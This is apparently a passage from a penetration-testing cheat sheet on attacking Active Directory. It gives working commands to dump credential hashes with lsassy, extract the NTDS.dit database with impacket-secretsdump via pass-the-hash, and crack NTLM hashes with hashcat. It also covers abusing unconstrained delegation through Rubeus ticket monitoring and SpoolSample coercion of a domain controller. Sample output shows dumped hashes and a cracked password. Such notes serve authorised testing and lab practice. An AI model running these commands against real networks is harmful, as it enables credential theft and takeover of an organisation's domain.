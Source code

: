 Best best is to use lsassy remotely or mimikatz/rubeus to get hashes locally.

`lsassy -u LocalBob -p Password1 192.168.219.133`

then you get something like

```
[+] 192.168.219.133 SKORP\BAMDC1$        [NT] 305ea2dea5d1f1e494645eb39784513a | [SHA1] d2837f19c7af41d9899d942b6d4c33663680a805
[+] 192.168.219.133 SKORP\Administrator  [NT] 64f12cddaa88057e06a81b54e73b949b | [SHA1] cba4e545b7ec918129725154b29f055e4cd5aea8
```
Grab the NT part from Administrator and construct secrets dump request

```
impacket-secretsdump -system Files/registry/SYSTEM -security Files/registry/SECURITY -ntds Files/Active\ Directory/ntds.dit -hashes :64f12cddaa88057e06a81b54e73b949b LOCAL -outputfile dit-extract
```

After that file dit-extract.ntds is going to appear in your directory

It can be then cracked using hashcat like so

`hashcat -a 0 -m 1000 -w 3  dit-extract.ntds  /usr/share/wordlists/rockyou.txt.gz --force --potfile-disable`

The cracked password is diplayed next to cracked hash that corresponds to some user like below.

Dictionary cache hit:
Filename..: /usr/share/wordlists/rockyou.txt.gz
Passwords.: 14344385
Bytes.....: 53357329
Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1                

## Delegation Vulnerabilities

### Unconstrained delegation

A  mechanism where a user sends its credentials to a service and then the service accesses resources on the user’s behalf.

* find computers with trust for delegation
`Get-ADComputer -Filter {TrustedForDelegation -eq $True}`

* monitor incoming tickets
`Rubeus.exe monitor /interval:1`

* force DC to connect to it via MS-RPRN RPC interface: kudos https://github.com/leechristensen/SpoolSample
`.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB`

Or one of the other options

```text
Responder
ARP Poisoning
Rogue DHCPv6
```

